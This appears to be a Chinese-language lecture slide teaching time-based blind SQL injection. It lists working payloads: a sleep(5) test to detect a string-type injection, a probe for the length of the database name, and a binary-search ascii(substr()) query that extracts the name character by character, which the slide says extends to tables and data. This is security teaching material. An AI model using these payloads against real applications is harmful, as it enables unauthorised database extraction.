

SQL注入漏洞

基于时间的SQL盲注
1. 首先判断是否存在注入，注入是字符型还是数字型：
输入1' and sleep(5) #，感觉到明显延迟
输入1 and sleep(5) #，没有延迟
说明存在字符型的基于时间的盲注。

2. 猜解当前数据库名字长度：
1' and if(length(database())=1,sleep(5),1) #没有延迟
1' and if(length(database())=4,sleep(5),1) # 明显延迟

3. 采用二分法猜解数据库名：
1' and if(ascii(substr(database(),1,1))>97,sleep(5),1)# 明显延迟
以此类推，猜解表、字段和数据